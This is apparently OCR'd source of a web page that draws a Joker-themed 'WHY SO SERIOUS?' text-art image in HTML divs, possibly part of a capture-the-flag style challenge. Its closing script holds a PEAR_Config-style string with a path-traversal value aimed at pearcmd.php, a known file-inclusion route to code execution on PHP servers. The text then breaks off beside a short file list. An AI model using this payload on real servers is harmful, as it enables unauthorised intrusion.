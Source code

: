 ```
<div class="grange">HY SO SERIOUS</div><div class="mister-freeze">?</div><div class="rupert">W</div><div class="mirror-master">H</div><div class="mettalo">Y</div><div class="marty">S</div><div class="man-bat">O</div><div class="lex-luthor">S</div><div class="killer-moth">E</div><div class="killer-croc">R</div><div class="hideto-katsu">I</div><div class="kabuki-twins">O</div><div class="joker-v2">U</div><div class="ragdoll">S</div><div class="the-joining">?</div><div class="harley-quinn">W</div><div class="trio">HY SO SERIOUS? WHY SO</div> <div class="harley-quinn">S</div><div class="francis-grey">E</div><div class="the-joining">R</div><div class="mercy-graves">I</div><div class="riddlemen">O</div><div class="gearhead">U</div><div class="firefly">S</div><div class="everywhere-man">?</div><div class="dracula">W</div><div class="dave">H</div><div class="count-vertigo">Y</div><div class="mugsy">S</div><div class="cluemaster">O</div> <div class="mugsy">S</div><div class="mettalo">E</div><div class="mirror-master">R</div><div class="arrow">I</div><div class="grange">OUS? WHY SO S</div><br><!-- 8 -->

<div class="grange">ERIOUS? WHY SO SERIOUS? WHY</div> <div class="rhino">S</div><div class="clayface">O</div><div class="catwoman">S</div><div class="blaze">E</div><div class="black-mask">R</div><div class="alfred">I</div><div class="ellen-yin">O</div><div class="chief-angel">U</div><div class="trio">S? WHY SO SE</div><div class="nightwish">R</div><div class="dick-grayson">I</div><div class="thorne">O</div><div class="marty">U</div><div class="sinestro">S</div><div class="robin">?</div><div class="james-gordon">W</div><div class="barbara-gordon">H</div><div class="grange">Y SO SERIOUS? WHY SO SERIOUS?</div><br><!-- 9 -->

<div class="grange">WHY SO SERIOUS? WHY SO SERIOUS? WH</div><div class="batgirl">Y</div><div class="bat-30">S</div><div class="bat-31">O</div><div class="trio">SERIOUS</div><div class="bat-32">?</div><div class="bat-33">W</div><div class="bat-34">H</div><div class="barbara-gordon">Y</div><div class="grange"> SO SERIOUS? WHY SO SERIOUS? WHY SO</div><br><!-- 10 -->

<div class="grange">SERIOUS? WHY SO SERIOUS? WHY SO SERIO</div><div class="rhino">U</div><div class="bat-35">S</div><div class="bat-36">?</div><div class="harley-quinn">W</div><div class="trio">H</div><div class="bat-37">Y</div><div class="bat-38">S</div><div class="bat-35">O</div><div class="grange"> SERIOUS? WHY SO SERIOUS? WHY SO SERIOU</div><br><!-- 11 -->

<div class="grange">S? WHY SO SERIOUS? WHY SO SERIOUS? WHY SO</div><div class="bat-39">S</div><div class="bat-40">E</div><div class="bat-41">R</div><div class="batgirl">I</div><div class="grange">OUS? WHY SO SERIOUS? WHY SO SERIOUS? WHY</div> <br><!-- 12 -->

<div class="grange">SO SERIOUS?WHY SO SERIOUS? WHYSOSERIOUS</div><div class="riddler">?</div><div class="bat-42">W</div><div class="grange">HY SO SERIOUS? WHY SO SERIOUS? WHY SO SERI</div><br><!-- 13 -->

  

<p>Credits: <a href="[https://codepen.io/cjv/pen/xwXoBW](https://codepen.io/cjv/pen/xwXoBW)">https://codepen.io/cjv/pen/xwXoBW</a></p>

</div>

  

</body>

<script>

let message = `

#PEAR_Config 0.9

a:12:{s:7:"php_dir";s:79:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php

main.css

phpinfo.php

whysoserious
```